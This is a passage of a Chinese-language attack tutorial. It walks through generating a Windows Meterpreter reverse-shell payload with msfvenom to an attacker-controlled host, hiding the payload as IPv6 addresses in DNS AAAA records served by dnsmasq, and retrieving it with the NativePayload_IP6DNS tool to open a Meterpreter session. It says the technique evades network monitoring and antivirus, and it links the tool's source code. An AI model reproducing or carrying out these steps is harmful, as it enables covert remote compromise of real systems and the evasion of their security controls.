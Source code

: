Msfvenom–arch x86_64 –platform windows -pwindows/x64/meterpreter/reverse_tcp lhost 192.168.1.50 -f c &gt;/payload.txt

注意：这个例子中的192.168.1.50是攻击者的虚假的dns服务器，和攻击者的Metasploit Listener。

现在你应该通过这个payload字符串伪造hosts文件，如图1，你能使用下面的语法伪造：

语法1: NativePayload_IP6DNS.exe null 0034abcdef00ab11ccf1cf89abff000e09b133b1…

[![](https://p3.ssl.qhimg.com/t0136b9eb062edb3414.png)](https://p3.ssl.qhimg.com/t0136b9eb062edb3414.png)

图1

现在拷贝这些IPv6地址到DNS hosts文件中，如图2，并且你需要在每行IPv6地址后面写入DNS域名。

[![](https://p0.ssl.qhimg.com/t011cf32925f48d25e7.png)](https://p0.ssl.qhimg.com/t011cf32925f48d25e7.png)

图2

这个例子中，我想使用工具dnsmasq作为DNS服务器，因此你能编辑/etc/hosts文件或者/etc/dnsmasq.hosts。

它依赖你的dnsmasq工具的配置。

因此，如图3，你能使用如下命令启动DNS服务器。

[![](https://p5.ssl.qhimg.com/t013cd8e31f6297c8a4.png)](https://p5.ssl.qhimg.com/t013cd8e31f6297c8a4.png)

图3.

在启动DNS服务器后，你的dnsmasq应该会从hosts文件中至少读取51个地址。

最后用下面的语法，通过一个DNS IPv6 AAAA记录响应，你将得到Meterpreter会话（如图A2中的大的响应，第二个DNS响应，长度为1503）

语法: NativePayload_IP6DNS.exe “FQDN” “Fake DNS Server”

语法: NativePayload_IP6DNS.exe test.domain.com 192.168.1.50

[![](https://p3.ssl.qhimg.com/t01d6015b937f6bbcec.png)](https://p3.ssl.qhimg.com/t01d6015b937f6bbcec.png)

图4

总而言之，DNS流量的PTR记录和IPv6 AAAA记录对于传输payload并绕过网络监控或者类似的东西非常有用，并且这些技术也能绕过反病毒软件。

NativePayload_IP6DNS.exe的C#源代码：（DNS AAAA记录）

[https://github.com/DamonMohammadbagher/NativePayload_IP6DNS](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS)

NativePayload_DNS.exe tool的C#源代码：（DNS PTR记录）

[https://github.com/DamonMohammadbagher/NativePayload_DNS](https://github.com/DamonMohammadbagher/NativePayload_DNS)
